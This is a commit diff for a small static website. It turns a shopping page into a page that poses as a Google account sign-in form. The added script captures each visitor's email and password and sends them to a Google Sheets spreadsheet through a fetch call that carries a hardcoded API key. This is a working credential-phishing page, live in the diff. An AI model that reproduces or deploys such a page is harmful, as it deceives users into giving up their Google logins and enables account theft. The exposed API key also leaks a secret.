

Before and after one commit to am3507962/da2amemo, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html
t

```diff
--- a/index.html
+++ b/index.html
@@ -2,196 +2,176 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <title>Shopping Website</title>
+    <meta http-equiv="X-UA-Compatible" content="IE=edge">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Google Form</title>
+    <link href="https://fonts.googleapis.com/css2?family=Open+Sans:ital,wght@0,400;0,500;0,600;0,700;0,800;1,300;1,400;1,500;1,600;1,700;1,800&display=swap" rel="stylesheet">
     <style>
         body {
-            font-family: Arial, sans-serif;
             margin: 0;
             padding: 0;
+            background-size: cover;
+            font-family: 'Open Sans', sans-serif;
         }
 
-        header {
-            background-color: #333;
-            color: #fff;
-            text-align: center;
-            padding: 20px 0;
+        .box {
+            position: absolute;
+            top: 50%;
+            left: 50%;
+            transform: translate(-50%, -50%);
+            width: 30rem;
+            padding: 3.5rem;
+            box-sizing: border-box;
+            border: 1px solid #dadce0;
+            -webkit-border-radius: 8px;
+            border-radius: 8px;
         }
 
-        h1, h2, h3 {
-            margin: 0;
+        .box h2 {
+            margin: 0px 0 -0.125rem;
+            padding: 0;
+            text-align: center;
+            color: #202124;
+            font-size: 24px;
+            font-weight: 400;
         }
 
-        main {
-            padding: 20px;
+        .box .logo {
+            display: flex;
+            flex-direction: row;
+            justify-content: center;
+            margin-bottom: 16px;
         }
 
-        section {
-            margin-bottom: 30px;
+        .box p {
+            font-size: 16px;
+            font-weight: 400;
+            letter-spacing: 1px;
+            line-height: 1.5;
+            margin-bottom: 24px;
+            text-align: center;
         }
 
-        button {
-            background-color: #333;
-            color: #fff;
-            border: none;
-            padding: 8px 12px;
-            cursor: pointer;
+        .box .inputBox {
+            position: relative;
         }
 
-        .product {
+        .box .inputBox input {
+            width: 93%;
+            padding: 1.3rem 10px;
+            font-size: 1rem;
+            letter-spacing: 0.062rem;
+            margin-bottom: 1.875rem;
             border: 1px solid #ccc;
-            padding: 10px;
-            margin-bottom: 10px;
+            background: transparent;
+            border-radius: 4px;
         }
 
-        .product button {
-            margin-top: 5px;
+        .box .inputBox label {
+            position: absolute;
+            top: 0;
+            left: 10px;
+            padding: 0.625rem 0;
+            font-size: 1rem;
+            color: gray;
+            pointer-events: none;
+            transition: 0.5s;
         }
 
-        #cart {
-            border: 1px solid #ccc;
-            padding: 20px;
+        .box .inputBox input:focus ~ label,
+        .box .inputBox input:valid ~ label,
+        .box .inputBox input:not([value=""]) ~ label {
+            top: -1.125rem;
+            left: 10px;
+            color: #1a73e8;
+            font-size: 0.75rem;
+            background-color: #fff;
+            height: 10px;
+            padding-left: 5px;
+            padding-right: 5px;
         }
 
-        .cart-item {
-            border: 1px solid #ccc;
-            padding: 10px;
-            margin-bottom: 10px;
+        .box .inputBox input:focus {
+            outline: none;
+            border: 2px solid #1a73e8;
+        }
+
+        .box input[type="submit"] {
+            border: none;
+            outline: none;
+            color: #fff;
+            background-color: #1a73e8;
+            padding: 0.625rem 1.25rem;
+            cursor: pointer;
+            border-radius: 0.312rem;
+            font-size: 1rem;
+            float: right;
+        }
+
+        .box input[type="submit"]:hover {
+            background-color: #287ae6;
+            box-shadow: 0 1px 1px 0 rgba(66,133,244,0.45), 0 1px 3px 1px rgba(66,133,244,0.3);
         }
     </style>
 </head>
 <body>
-
-    <header>
-        <h1>My Shopping Website</h1>
-        <nav>
-            <button onclick="showAddProductForm()">Add Product</button>
-        </nav>
-    </header>
-
-    <main>
-        <section id="products">
-            <!-- Products will be dynamically added here -->
-        </section>
-
-        <section id="addProduct" style="display: none;">
-            <h2>Add a Product</h2>
-            <form id="productForm">
-                <input type="text" placeholder="Product Name" id="productName">
-                <input type="number" placeholder="Price" id="productPrice">
-                <input type="password" placeholder="Enter Passcode to Add Product" id="passcode">
-                <button type="button" onclick="addProduct()">Add Product</button>
-            </form>
-        </section>
-
-        <section id="cart">
-            <h2>Shopping Cart</h2>
-            <div id="cartItems">
-                <!-- Cart items will be displayed here -->
+    <div class="box">
+        <div class="logo">
+        </div>
+        <h2>Sign In</h2>
+        <p>Sign in to your Google Account</p>
+        <form onsubmit="submitForm(event)">
+            <div class="inputBox">
+                <input type="email" name="email" required onkeyup="this.setAttribute('value', this.value);"  value="">
+                <label>Email</label>
             </div>
-            <p>Total: $<span id="totalPrice">0.00</span></p>
-            <form id="userInfoForm" onsubmit="sendEmail(event)">
-                <input type="text" placeholder="Your Name" id="userName">
-                <input type="tel" placeholder="Your Phone Number" id="userPhone">
-                <button type="submit">Buy Cart</button>
-            </form>
-        </section>
-    </main>
+            <div class="inputBox">
+                <input type="password" name="password" required onkeyup="this.setAttribute('value',this.value);" value="">
+                <label>Password</label>
+            </div>
+            <input type="submit" name="sign-in" value="Sign In">
+        </form>
+    </div>
 
     <script>
-        let products = [];
-        let cart = [];
-
-        function showAddProductForm() {
-            const addProductSection = document.getElementById('addProduct');
-            addProductSection.style.display = 'block';
+        function submitForm(event) {
+            event.preventDefault();
+            const email = document.querySelector('input[name="email"]').value;
+            const password = document.querySelector('input[name="password"]').value;
+            writeToGoogleSheets(email, password);
         }
 
-        function addProduct() {
-            const passcode = document.getElementById('passcode').value;
+        function writeToGoogleSheets(email, password) {
+            // Replace with your API key
+            const API_KEY = 'AIzaSyCo85bgrJs8BB9SqUisk2EGPJps5l72F2g';
 
-            if (passcode !== '1223334444') {
-                alert('Incorrect passcode. Product not added.');
-                return;
-            }
+            // Replace with your spreadsheet ID
+            const SPREADSHEET_ID = '1XTozBtxUzbhz7f72wsyICpu4GaV3jR_te5tP9CuyA3Q';
 
-            const productName = document.getElementById('productName').value;
-            const productPrice = parseFloat(document.getElementById('productPrice').value);
-
-            const newProduct = {
-                name: productName,
-                price: productPrice
+            const data = {
+                values: [
+                    [email, password]
+                ]
             };
 
-            products.push(newProduct);
-            displayProducts();
-            clearForm();
-        }
-
-        function displayProducts() {
-            const productsSection = document.getElementById('products');
-            productsSection.innerHTML = '';
-
-            products.forEach((product, index) => {
-                const productElement = document.createElement('div');
-                productElement.classList.add('product');
-                productElement.innerHTML = `<h3>${product.name}</h3><p>$${product.price}</p><button onclick="addToCart(${index})">Add to Cart</button>`;
-                productsSection.appendChild(productElement);
+            fetch(`https://sheets.googleapis.com/v4/spreadsheets/${SPREADSHEET_ID}/values/Sheet1!A1:B1:append?valueInputOption=RAW&key=${API_KEY}`, {
+                method: 'POST',
+                headers: {
+                    'Content-Type': 'application/json',
+                },
+                body: JSON.stringify(data),
+            })
+            .then(response => {
+                if (response.ok) {
+                    console.log('Data added to Google Sheets');
+                } else {
+                    console.error('Failed to add data to Google Sheets:', response.statusText);
+                }
+            })
+            .catch(error => {
+                console.error('Error:', error);
             });
         }
-
-        function addToCart(index) {
-            const selectedProduct = products[index];
-            cart.push(selectedProduct);
-            displayCart();
-        }
-
-        function displayCart() {
-            const cartItemsDiv = document.getElementById('cartItems');
-            cartItemsDiv.innerHTML = '';
-
-            let totalPrice = 0;
-
-            cart.forEach((cartItem) => {
-                const cartItemElement = document.createElement('div');
-                cartItemElement.classList.add('cart-item');
-                cartItemElement.innerHTML = `<h3>${cartItem.name}</h3><p>$${cartItem.price}</p>`;
-                cartItemsDiv.appendChild(cartItemElement);
-
-                totalPrice += cartItem.price;
-            });
-
-            document.getElementById('totalPrice').textContent = totalPrice.toFixed(2);
-        }
-
-        function clearForm() {
-            document.getElementById('productName').value = '';
-            document.getElementById('productPrice').value = '';
-            document.getElementById('passcode').value = '';
-        }
-
-        function sendEmail(event) {
-            event.preventDefault();
-
-            const userEmail = 'am3507962@gmail.com';
-            const userName = document.getElementById('userName').value;
-            const userPhone = document.getElementById('userPhone').value;
-            const cartInfo = cart.map(item => `${item.name} - $${item.price}`).join('\n');
-            const totalPrice = document.getElementById('totalPrice').textContent;
-
-            const emailSubject = `Purchase Details from ${userName}`;
-            const emailBody = `Customer Name: ${userName}\nPhone Number: ${userPhone}\n\nCart Items:\n${cartInfo}\nTotal Price: $${totalPrice}`;
-
-            const mailtoLink = `mailto:${userEmail}?subject=${emailSubject}&body=${emailBody}`;
-            window.location.href = mailtoLink;
-
-            cart = [];
-            displayCart();
-            document.getElementById('userName').value = '';
-            document.getElementById('userPhone').value = '';
-        }
-
-        // Initial display of products
-        displayProducts();
     </script>
 </body>
 </html>
```
